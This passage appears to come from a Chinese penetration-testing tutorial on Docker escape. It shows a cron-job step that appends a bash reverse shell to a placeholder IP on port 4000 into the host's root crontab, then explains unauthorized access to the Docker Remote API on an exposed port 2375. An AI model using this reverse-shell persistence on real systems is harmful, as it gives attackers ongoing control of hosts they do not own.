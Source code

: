 [![](assets/1708095739-e8f19862fe30b45460003cc1c59450fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211447-a65dcff4-e5c6-1.png)  
6、写入计划任务到宿主机

```bash
echo '* * * * * bash -i >& /dev/tcp/ip/4000 0>&1' >> /test/var/spool/cron/root
```

## Remote API 未授权访问

docker swarm 中默认通过 2375 端口通信。绑定了一个 Docker Remote API 的服务，可以通过 HTTP、Python、调用 API 来操作 Docker。

### 未授权访问

当使用官方推荐启动方式时

```bash
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

在没有其他网络访问限制的主机上使用，则会在公网暴漏端口。
